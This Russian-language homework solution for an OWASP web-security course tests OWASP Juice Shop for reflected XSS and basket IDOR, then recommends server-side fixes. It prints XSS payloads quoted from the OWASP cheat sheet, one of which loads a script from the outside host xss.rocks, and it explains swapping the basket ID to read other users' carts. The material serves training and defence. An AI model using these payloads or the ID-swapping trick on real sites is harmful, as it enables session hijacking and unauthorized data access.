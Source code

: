 # Решение домашнего задания к занятию «OWASP Web. Часть 2»

## Задание «Поиск»

### Использованные данные для ввода
Для проверки на XSS в поле поиска можно использовать:
```html
<iframe src="javascript:alert('XSS')"></iframe>
```
Если этот код, введенный в поиск, отражается в URL и выполняется, это указывает на Reflected XSS. Такую ссылку можно передать другому пользователю.

### Пункт из XSS Cheat Sheet
Пример с `<iframe>` относится к разделу **IFRAME Tags** из [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) от OWASP:
*   `<IFRAME SRC="javascript:alert('XSS');">`

Другие релевантные примеры включают использование тега `<script>`:
*   `<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`
*   `"><script>alert(String.fromCharCode(88,83,83))</script>`

## Задание «Чужая корзина»

### Наименование параметра, который отвечает за открываемую корзину
Параметр, отвечающий за корзину, часто называется `bid` (Basket ID). В OWASP Juice Shop он находится в `localStorage` или `sessionStorage`. Изменение этого `bid` на идентификатор чужой корзины (если его угадать) может позволить получить доступ к ее содержимому, если нет должных проверок на сервере.

### Ваши рекомендации по исправлению этой незначительной уязвимости
Для исправления уязвимости IDOR с корзиной:

1.  **Обязательная серверная проверка прав доступа:** Сервер должен всегда проверять, имеет ли текущий пользователь право на доступ к корзине с указанным `bid`. Если нет – запрещать доступ.
2.  **Использование непредсказуемых идентификаторов корзин:** Вместо простых чисел для `bid` использовать сложные идентификаторы (например, UUID), чтобы усложнить их подбор.
3.  **Не доверять данным от клиента:** Решение о доступе должно приниматься на сервере, основываясь на серверной логике и сессии пользователя, а не только на `bid` из `localStorage`/`sessionStorage`.
4.  **Привязка корзины к сессии на сервере:** Сервер должен определять корзину на основе сессии пользователя, а не только по `bid` от клиента.
5.  **Регулярный аудит безопасности:** Проводить тесты на проникновение для выявления подобных уязвимостей.

Эти меры помогут обеспечить, что каждый пользователь сможет получить доступ только к своей корзине, предотвращая несанкционированный доступ к данным других пользователей. 